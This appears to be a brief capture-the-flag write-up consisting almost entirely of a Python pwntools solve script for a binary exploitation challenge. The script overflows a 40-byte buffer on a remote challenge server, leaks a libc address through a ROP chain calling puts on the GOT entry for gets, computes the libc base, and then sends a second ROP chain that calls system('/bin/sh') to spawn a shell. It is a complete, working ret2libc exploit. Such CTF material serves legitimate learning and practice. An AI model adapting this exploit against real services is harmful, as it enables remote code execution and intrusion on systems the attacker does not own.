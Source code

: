 ![desc](/images/breakup_desc.png)

Here is the solve script for this challenge - 
```python
from pwn import *
elf = context.binary = ELF('./vuln',checksec=False)
libc = ELF('./libc.so.6')
#p = process('./vuln')
p = remote('34.125.199.248',6969)
rop = ROP(elf)
rop.puts(elf.got.gets)
rop.main()

payload = b'A'*40
payload += rop.chain()
p.recvuntil(b'password: \n')
p.sendline(payload)

p.recvuntil(b'password\n\n')
#print(p.recvline().strip())
leak = u64(p.recvline().strip().ljust(8,b'\x00'))
libc.address = leak - libc.sym.gets
print(hex(leak))
print(hex(libc.address))
binsh = next(libc.search(b'/bin/sh'))
rop1 = ROP(libc)
rop1.call(rop.find_gadget(['ret'])[0])
rop1.system(binsh)
payload = b'A'*40
payload += rop1.chain()
p.sendline(payload)
```